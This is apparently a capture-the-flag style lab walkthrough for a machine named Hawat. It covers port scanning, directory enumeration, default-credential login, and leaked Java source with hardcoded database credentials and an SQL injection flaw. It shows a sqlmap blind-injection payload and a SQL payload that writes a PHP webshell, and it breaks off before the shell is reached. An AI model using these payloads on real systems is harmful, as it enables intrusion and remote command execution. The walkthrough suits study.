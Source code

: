 # Hawat (Broken)

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.147
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 12:15 +08
Warning: 192.168.157.147 giving up on port because retransmission cap hit (10).
Stats: 0:03:25 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 85.65% done; ETC: 12:19 (0:00:35 remaining)
Nmap scan report for 192.168.157.147
Host is up (0.17s latency).
Not shown: 65481 filtered tcp ports (no-response), 50 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
17445/tcp open  unknown
30455/tcp open  unknown
50080/tcp open  unknown
```

Did a detailed scan on the non HTTP ports.&#x20;

```
$ sudo nmap -p 17445,30455,50080 -sC -sV --min-rate 4000 192.168.157.147
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 12:19 +08
Nmap scan report for 192.168.157.147
Host is up (0.18s latency).

PORT      STATE SERVICE VERSION
17445/tcp open  unknown
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Cache-Control: no-cache, no-store, max-age=0, must-revalidate
|     Pragma: no-cache
|     Expires: 0
|     X-Frame-Options: DENY
|     Content-Type: text/html;charset=UTF-8
|     Content-Language: en-US
|     Date: Fri, 14 Jul 2023 04:20:05 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <title>Issue Tracker</title>
|     <link href="/css/bootstrap.min.css" rel="stylesheet" />
|     </head>
|     <body>
|     <section>
|     <div class="container mt-4">
|     <span>
|     <div>
|     href="/login" class="btn btn-primary" style="float:right">Sign In</a> 
|     href="/register" class="btn btn-primary" style="float:right;margin-right:5px">Register</a>
|     </div>
|     </span>
|     <br><br>
|     <table class="table">
|     <thead>
|     <tr>
|     <th>ID</th>
|     <th>Message</th>
|     <th>P
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET,HEAD,OPTIONS
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Cache-Control: no-cache, no-store, max-age=0, must-revalidate
|     Pragma: no-cache
|     Expires: 0
|     X-Frame-Options: DENY
|     Content-Length: 0
|     Date: Fri, 14 Jul 2023 04:20:05 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Fri, 14 Jul 2023 04:20:05 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
30455/tcp open  http    nginx 1.18.0
|_http-title: W3.CSS
|_http-server-header: nginx/1.18.0
50080/tcp open  http    Apache httpd 2.4.46 ((Unix) PHP/7.4.15)
|_http-title: W3.CSS Template
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.15
| http-methods:
```

### Web Enum --> Source Code

Port 17445 had some kind of ticket creator:

<figure><img src="../../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

Default creds didn't work, so let's move on. Port 30445 just didn't load for me for some reason.&#x20;

Port 50080 shows a Pizza website:

<figure><img src="../../../.gitbook/assets/image (96).png" alt=""><figcaption></figcaption></figure>

The website was rather static. I did a directory scan on all the ports. Port 50080 has a `/cloud` directory:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.157.147:50080 -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.157.147:50080
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/14 12:24:36 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 244] [--> http://192.168.157.147:50080/images/]
/4                    (Status: 301) [Size: 239] [--> http://192.168.157.147:50080/4/]
/cloud                (Status: 301) [Size: 243] [--> http://192.168.157.147:50080/cloud/]
```

When viewed, it shows a login page:

<figure><img src="../../../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

We can login with `admin:admin`. There, we see an `issuetracker.zip` file:

<figure><img src="../../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

We can download this to our Kali machine and unzip it. This would reveal source code for a website.

```
$ ll
total 32
-rw-r--r-- 1 kali kali  1495 Feb  2  2021 HELP.md
-rwxr-xr-x 1 kali kali 10070 Feb  2  2021 mvnw
-rw-r--r-- 1 kali kali  6608 Feb  2  2021 mvnw.cmd
-rw-rw-r-- 1 kali kali  2248 Feb  5  2021 pom.xml
drwxr-xr-x 4 kali kali  4096 Feb  2  2021 src
```

### Source Code Analysis --> SQLI RCE

The source code was in Java and for the application running on port 17445. I looked thorugh the files and found this within `src/main/java/com/issue/tracker/issues/IssueController.java`:

```java
        @GetMapping("/issue/checkByPriority")
        public String checkByPriority(@RequestParam("priority") String priority, Model model) {
                // 
                // Custom code, need to integrate to the JPA
                //
            Properties connectionProps = new Properties();
            connectionProps.put("user", "issue_user");
            connectionProps.put("password", "ManagementInsideOld797");
        try {
                        conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/issue_tracker",connectionProps);
                    String query = "SELECT message FROM issue WHERE priority='"+priority+"'";
            System.out.println(query);
                    Statement stmt = conn.createStatement();
                    stmt.executeQuery(query);
```

This bit of code here gave us credentials, and also is vulnerable to SQL injection since the `priority` variable is not sanitsed before being passed in. I registed a user on the machine, and then proceeded to test the SQL Injection using `sqlmap`:

```
$ sqlmap -r req
---
Parameter: priority (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: priority=' AND (SELECT 3165 FROM (SELECT(SLEEP(5)))JlSD) AND 'aCou'='aCou
---
```

Normally, this should be rather easy to write a webshell, but I don't know the document root, and `sqlmap` brute force doesn't seem to work.&#x20;

I reset the machine and took another look at port 30445, since that's the only port which doesn't seem to work properly. However, it still doesn't return any results. I took a hint and it turns out it was supposed to load `phpinfo.php`, and it shows that `/srv/http` is the document root.

Anyways, with this we can write a webshell using this payload:

```sql
' union select '<?php system($_REQUEST['cmd']); ?>' into outfile '/srv/http/cmd.php' -- -
```

However, since the webshell is written to the service on port 30445, I am unable to access it for now. &#x20;
